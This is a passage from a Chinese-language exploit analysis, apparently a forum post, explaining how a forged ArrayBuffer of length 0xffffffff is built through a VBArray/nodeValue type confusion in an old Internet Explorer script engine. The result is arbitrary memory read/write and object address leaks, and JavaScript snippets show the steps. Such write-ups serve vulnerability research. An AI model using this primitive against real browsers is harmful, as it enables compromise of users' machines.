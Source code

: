  

![](https://bbs.pediy.com/upload/tmp/893960_DP7FMXAM93AYTPM.png)

 

ArrayBuffer_data 由于前面通过下面这条代码进行初始化, 所以其中存储的是 Array 对象. 也是后面要进行伪造的 ArrayBuffer 对象

```
var fake = new ArrayBuffer(0x100);
var fakeArr = new Uint32Array(fake);

```

![](https://bbs.pediy.com/upload/tmp/893960_WCC8ZNEECVRFE3H.png)

 

刷新后, 0f0 0f4 10c 位置对应着 fakebuf 的属性

 

![](https://bbs.pediy.com/upload/tmp/893960_DMDMTPYCZ2NZD5M.png)

 

然后通过前面申请的指向 fakeBuf 的 fakeArray 对象伪造出一份起始地址为 0x0, 长度为 0xffffffff 的 ArrayBuffer 对象, 将 bufArr 中属性写入 fakeArr, 并将 fake 的 ArrayBuf 虚表指针地址 fakeArr[4] 位置,

 

将 fake 的一些属性进行替换, 并将长度修改为 0xffffffff, 然后将构造好的 ArrayBuffer 写入 node_value 中

```
ref = new VBArray(hd0.nodeValue);
      var vt = ref.getItem(1);
      var gc = ref.getItem(2);
      var bs = ref.getItem(3);
      ref = null;
      for (var i = 0; i < 16; ++i) {
          fakeArr[i] = bufArr[i];
      }
      fakeArr[4] = bs + 0x40;
      fakeArr[16] = vt;
      fakeArr[17] = gc;
      fakeArr[24] = 0xffffffff;
      setData(1, new Data(VT_DISPATCH, bs));
      flush();

```

![](https://bbs.pediy.com/upload/tmp/893960_M7GA62N7EMUFX4Q.png)

 

![](https://bbs.pediy.com/upload/tmp/893960_8B58CX875ZRU7QM.png)

 

然后将这个 ArrayBuffer 解析为 dataview 对象, 就可以实现任意地址读写. 然后通过将对象存储至 arr[{}], 并读取 pArr 值, 实现任意对象地址的读取.
